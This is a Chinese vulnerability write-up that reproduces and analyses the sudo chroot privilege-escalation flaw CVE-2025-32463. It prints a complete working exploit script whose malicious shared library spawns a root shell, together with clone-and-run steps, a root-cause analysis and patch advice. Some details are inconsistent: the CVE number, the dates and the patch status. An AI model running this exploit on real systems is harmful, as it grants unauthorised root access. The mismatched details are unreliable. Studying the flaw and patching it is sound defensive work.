







# CVE-2025-32463漏洞复现与分析-先知社区

> **来源**: https://xz.aliyun.com/news/18443  
> **文章ID**: 18443

---

# 漏洞简介

Sudo 1.9.14+ 版本存在漏洞：它在切换环境（[chroot](https://so.csdn.net/so/search?q=chroot&spm=1001.2101.3001.7020)）后过早解析路径，导致攻击者能通过伪造/etc/nsswitch.conf等文件，诱骗Sudo加载恶意库（如libnss\_xxx.so）。无需特殊权限即可获得root权限，危害极大。

（核心：路径解析顺序错误 + 恶意库劫持 = 直接提权）

# 漏洞描述

该漏洞的严重性被评为“重要”，因为攻击者必须能够访问系统上的有效帐户，并且即使帐户未在 sudoers 文件中列出，它也允许本地非特权攻击者提升其权限。

由于受影响的版本范围有限，此漏洞不会影响

## 快速验证

**第一种**：版本影响范围在**Sudo 1.9.14至1.9.17**全系列  
换句话说，就是2023年7月20日发布的Sudo 1.9.14，2025年6月30日发布补丁

```
sudo --version
```

# 漏洞复现



unbutu环境测试，需要R权限。



当前账号没有R权限，需要在`/etc/sudoers` 有R权限。

john ALL=(ALL) NOPASSWD: /path/to/woot -R

下载poc并执行

git clone https://github.com/pr0v3rbs/CVE-2025-32463\_chwoot.git

cd CVE-2025-32463\_chwoot

./sudo-chwoot.sh



## 漏洞分析

看poc的编写代码

```
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

if [ $# -eq 0 ]; then
    # If no command is provided, default to an interactive root shell.
    CMD="/bin/bash"
else
    # Otherwise, use the provided arguments as the command to execute.
    CMD="$@"
fi

# Escape the command to safely include it in a C string literal.
# This handles backslashes and double quotes.
CMD_C_ESCAPED=$(printf '%s' "$CMD" | sed -e 's/\/\\/g' -e 's/"/\"/g')

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/sh", "sh", "-c", "${CMD_C_ESCAPED}", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}

```

## 提权链路



## 突破1：控制chroot目录，实现临时提权

```
mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
```

在这里，构建一个伪根目录woot，其中包含篡改的nsswitch.conf文件

将passwd数据库指向不存在的路径/woot1337，sudo没有去鉴别，直接用root权限去解析恶意库  
目的：触发恶意库 libnss\_xxx.so，实现临时提权

## 突破2：维持root权限，另开shell

```
__attribute__((constructor)) void woot(void) {
  setreuid(0,0);  // 将 *当前进程* 的UID设置为0(root)
  setregid(0,0);  // 将GID设置为0
  execl("/bin/sh", "sh", ...); // 在root上下文启动shell
}

```

# 漏洞利用分析：

此漏洞源于 sudo 1.9.14 版本中引入的一项更改。在执行 sudoers 文件之前， chroot 环境中的路径解析就开始发生，这导致攻击者能够插入恶意配置文件 (/etc/nsswitch.conf) 并加载恶意共享库。利用此漏洞，攻击者可以获得直接的 root 权限。

### 漏洞根源与技术分析

CVE-2025-36463 在 Sudo v1.9.14（2023 年 6 月）中引入，与使用 chroot 功能时命令匹配处理代码的更新有关，相关代码逻辑位于 plugins/sudoers/sudoers.c 文件中的set\_cmnd\_path函数里。其大致流程为：pivot\_root函数进行 chroot，resolve\_cmnd函数进行命令的匹配查找路径，最后unpivot\_root使 chroot 回到原来的 root path。

​

漏洞发生在pivot\_root和unpivot\_root之间，此期间有代码逻辑读取/etc/nsswitch.conf文件并更新nss\_database\*。通过对nss\_database\_check\_reload\_and\_get函数的分析可知，在刚进入该函数时，会先判断local->data.reload\_disable是否为 True，若为 True 则直接返回，之后判断/etc/nsswitch.conf文件是否修改。由于getgrouplist的调用，调用了nss\_database\_check\_reload\_and\_get函数，且此时reload\_disabled未设置且services[nss\_database\_initgroups]为空，所以会走到nss\_database\_reload。



在unpivot\_root之后，当调用第一个nss\_database\_check\_reload\_and\_get时，会将reload\_disabled设置成 1 且返回，后续调用就不会再进入nss\_database\_reload，这解释了为何后续调用不会重新读取/etc/nsswitch.conf。



### 思考

该漏洞存在巧合之处，如果pivot\_root之后，调用到的第一个nss\_database\_check\_reload\_and\_get的第三个参数database\_index不是nss\_database\_initgroups，且默认nss\_database\_initgroups初始化为空，就会走到reload\_disabled的地方并返回，之后便不会再读取nsswich.conf。经查看，libc 对 nss\_database 初始化的上一次更改在五年前，与该 2023 年引入的漏洞关联不大，更多是巧合。

## 漏洞利用机制

该漏洞利用非常简单：

1. `nsswitch.conf`攻击者在受控目录中创建恶意文件。
2. `-R`使用( `chroot`) 选项在精心设计的环境中运行 sudo 。
3. Sudo 首先读取此配置，导致系统加载攻击者提供的库，立即提供 root shell 访问权限。

### 步骤 1：设置（创建恶意环境）

攻击者准备一个伪目录（`woot`），其中包含以下内容：

* 一个恶意`nsswitch.conf`文件指示系统使用名为 的无效服务`/woot1337`。
* 一个专门设计`woot1337.so.2`用来授予`root`特权的恶意库（）。

### 步骤 2：恶意库（`woot1337.c`）

攻击者将一个小型 C 程序编译成恶意共享库：

```
// Automatically runs when library loads
__attribute__((constructor)) void woot(void) {
  setreuid(0,0);    // Gain root privileges
  setregid(0,0);    // Gain root group privileges
  chdir("/");       // Move to root directory
  execl("/bin/bash", "/bin/bash", NULL); // Open a root shell
}
```

​

无论何时加载，这个简短的代码片段都会启动一个根级 bash shell。

### 步骤3：触发漏洞

然后攻击者运行一个命令：

```
sudo -R woot woot
```

Sudo 尝试加载攻击者控制的配置文件 ( `nsswitch.conf`)，从而强制其加载恶意库。结果，攻击者立即获得了完全权限的 root shell。

# 影响版本

* 易受攻击：sudo `1.9.14`–`1.9.17`​
* 不易受攻击：旧版本（`<1.9.14`，不支持 chroot）

覆盖范围

* Ubuntu：在`1.9.16p2-1ubuntu1.1`( `25.04`) 中进行了修补，并在 中进行了等效修补`24.10/24.04`。
* Debian、Red Hat、SUSE、Amazon Linux 2023：官方补丁发布；建议立即更新。

​

# 漏洞修复

立即升级：更新到 sudo`1.9.17p1`或更高版本。

验证发行补丁：

* Ubuntu：确保版本≥`1.9.16p2-1ubuntu1.1`
* SUSE：更新至版本≥`1.9.15p5‑150600.3.9.1`
* Amazon Linux 2023：补丁待发布；Amazon Linux 2 不受影响。

缓解措施：

* `--chroot`如果无法立即修补，请暂时在 sudoers 中禁用。
* 通过 SELinux/AppArmor 和 SIEM 日志监控活动，发现异常`-R`选项使用情况或意外库加载。

REF：

https://bestwing.me/CVE-2025-36463\_Sudo\_chroot\_Elevation\_of\_Privilege.md.html

https://blog.csdn.net/sinat\_28521487/article/details/149154974
